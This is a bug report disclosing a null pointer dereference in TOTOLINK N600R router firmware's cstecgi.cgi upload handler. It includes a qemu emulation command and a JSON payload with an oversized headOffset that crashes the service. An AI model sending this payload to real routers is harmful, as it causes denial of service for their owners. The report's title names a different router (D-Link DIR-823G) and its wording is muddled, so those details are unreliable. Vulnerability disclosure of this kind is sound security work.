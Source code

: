 # Bug Report: NPD in D-Link DIR-823G Router
A null pointer dereference null pointer dereference overflow vulnerability has been identified in the TOTOLINK N600R router firmware that allows remote attackers to cause denial of service.

## Vulnerability Details

### Product Information
- **Product**: TOTOLINK N600R Wireless Router
- **Affected Version**: V4.3.0cu.7866_B20220506
- **Download Source**: https://totolink.tw/support_view/N600R
- **Vulnerability Type**: Null pointer dereference

## Description:

The vulnerable code path within the `sub_41773C` function (setUploadSetting handler) of cstecgi.cgi extracts the `ContentLength` parameter and `headOffset` parameter. It has a size check for the `ContentLength`. However, the malloc size is the sum of both parameters, so we could set the `headOffset` as a large size to make the `malloc` return null. The null pointer is passed into `memset` without a null check, leading to a null pointer dereference resulting in a DoS attack.

![alt text](image-2.png)

## poc

We set a breakpoint before the function call `memset` at line 93. By dumping the registers, we can see that `v10` is null and `v7 + v5` is a positive value. By tracing the execution, we find a null pointer dereference occurs.
![alt text](image.png)
![alt text](image-1.png)

## reproduce

```bash
./sub_41773C.sh
```

```bash
gdb-multiarch ./web_cste/cgi-bin/cstecgi.cgi
```

### sub_41773C.sh
```bash
chroot ./ ./qemu-mips-static\
        -E  CONTENT_LENGTH="990"  -g  123  -L  ./lib  \
        ./web_cste/cgi-bin/cstecgi.cgi  < sub_41773C.json
```
### sub_41773C.json
```json
{
    "topicurl" : "UploadCustomModule/setUploadSetting",
    "ContentLength" : "10000",
    "headOffset": "2147473646"
}
```